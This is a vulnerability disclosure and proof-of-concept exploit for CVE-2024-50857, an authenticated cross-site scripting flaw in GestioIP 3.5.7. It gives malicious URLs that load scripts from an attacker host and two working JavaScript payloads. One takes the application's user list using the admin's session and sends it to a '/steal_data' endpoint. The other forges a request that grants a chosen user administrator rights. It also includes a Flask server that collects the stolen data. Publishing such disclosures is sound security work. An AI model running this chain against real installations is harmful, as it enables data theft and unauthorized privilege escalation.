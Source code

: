 ```yaml
---
title: "CVE-2024-50857. GestioIP Vulnerability: XSS"
description: Auth. Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
author website: https://belino.com
lang: en
tags:
  - vulnerability
  - CVE
  - XSS
---
```

# CVE-2024-50857

- [Information](#information)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Prerequisites](#prerequisites)
	- [Case 1: Data exfiltration](#case-1-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
	- [Case 2: XSS and CSRF chained](#case-2-xss-and-csrf-chained)
		- [Usage/Exploitation](#usageexploitation)
	- [OBS](#obs)
	- [Payloads](#payloads)
	- [Flask server](#flask-server)


## Information

**Description:** The `"ip_do_job"` request is vulnerable to XSS (Cross-Site Scripting), allowing data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>

**Versions Affected:** 3.5.7 <br>

## Proof-of-Concept Exploit

### Description

The `"ip_do_job"` feature of GestioIP 3.5.7 is vulnerable to XSS, leading to data exfiltration and CSRF attacks. Two examples (Case 1 and Case 2) are described below.

### Prerequisites

To successfully exploit the XSS vulnerability, the user must be part of a "User Group" that has the following three permissions:

• Show backuped device configurations (read_device_config_perm)

• Upload device configurations (write_device_config_perm)

• Administrate CM (administrative_cm_perm)

These permissions can be assigned to any group via:
Manage > User Groups > Configuration Management

![](files/CVE-2024-50857-1.png)
Then select these 3 checkboxes:
![](files/CVE-2024-50857.png)


The following groups have these permissions enabled by default for "Configuration Management":

◇ Admin

◇ GestioIP Admin


Note:

By default, the *gipadmin* user belongs to the "GestioIP Admin" group.


### Case 1: Data exfiltration

For example, an attacker can use this vulnerability to retrieve the list of users from the GestioIP application. If an administrator visits a malicious URL while authenticated to the application, the XSS payload will be triggered, causing the admin's browser to perform a GET request to the user list of the GestioIP application. Afterward, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload4.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`) and also a python-flask server to receive the exfiltrated data.

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload4.js"></script>'`

Then, the malicious url is:

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload4.js%22%3E%3C/script%3E%27


When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to collect the data and send it to the attacker's server (data exfiltration).




### Case 2: XSS and CSRF chained

The attacker has obtained a list of users using Case 1. Now the attacker assigns a user he choose the **admin** role.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload5.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`).

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload5.js"></script>'`

Then, the malicious url is:


http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload5.js%22%3E%3C/script%3E%27



When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to make a request to the "ip_mod_user" feature in the application changing the "*group_id*" value (elevating privileges) to a target user.




### OBS

`host_id` is also a vulnerable parameter

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&host_id='<script>alert("test")</script>'

Using parameter: `stored_config`
http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config='<script>alert("test")</script>'

### Payloads

`payload4.js`

``` javascript
fetch('http://localhost/gestioip/res/ip_show_user.cgi?client_id=1', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(data => {
    fetch('http://localhost:8000/steal_data', {
      method: 'POST',
      body: JSON.stringify({
        pageContent: data,
        location: window.location.href,
        userAgent: navigator.userAgent
      }),
      headers: {
        'Content-Type': 'application/json'
      }
    });
  })
  .catch(err => console.error('Error', err));
  ```


`payload5.js`

```javascript
const data = new URLSearchParams();
data.append('name', 'maxi');
data.append('group_id', '3');
data.append('email', 'maxi@test.com');
data.append('phone', '123');
data.append('comment', '');
data.append('client_id', '1');
data.append('id', '2');
data.append('B2', '');

fetch('http://localhost/gestioip/res/ip_mod_user.cgi', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: data
})
.then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok ' + response.statusText);
    }
    return response.text();
})
.then(responseData => {
    console.log('Success:', responseData);
})
.catch(error => {
    console.error('Error:', error);
});
```

### Flask server

`server_flask.py`

```python
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)  # enables CORS for all routes

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.json  # data received format: JSON
    with open('data_exfiltrated.html', 'a') as f:  # open the file in append mode
        f.write(json.dumps(data) + '\n')  # write data to file
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```


